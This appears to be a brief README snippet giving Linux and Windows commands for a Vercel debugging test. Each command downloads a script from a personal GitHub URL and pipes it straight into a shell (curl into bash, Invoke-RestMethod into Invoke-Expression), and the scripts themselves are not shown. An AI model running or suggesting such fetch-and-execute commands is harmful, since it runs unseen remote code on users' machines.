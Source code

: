 Commands to run:

## Linux: 
    curl https://raw.githubusercontent.com/robachicken/test-ping/main/linux.sh | bash | tee vercel-debug.txt

## Windows: 
    Invoke-RestMethod -Uri https://raw.githubusercontent.com/robachicken/test-ping/main/windows.ps1 | Invoke-Expression | tee vercel-debug.txt
